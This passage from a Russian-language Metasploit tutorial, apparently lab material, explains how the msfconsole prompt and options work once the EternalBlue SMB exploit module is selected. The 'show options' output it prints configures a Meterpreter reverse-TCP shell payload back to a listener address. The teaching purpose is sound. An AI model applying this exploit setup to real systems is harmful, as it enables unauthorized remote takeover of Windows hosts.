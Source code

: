 Хотя приглашение изменилось, вы заметите, что мы все еще можем выполнять ранее упомянутые команды. Это означает, что 
мы не «вводили» папку, как вы обычно ожидаете в командной строке операционной системы. 

Линукс команды в контексте
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Подсказка сообщает нам, что теперь у нас есть набор контекстов, в которых мы будем работать. Вы можете увидеть это, 
введя команду show options. 

Показать параметры
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

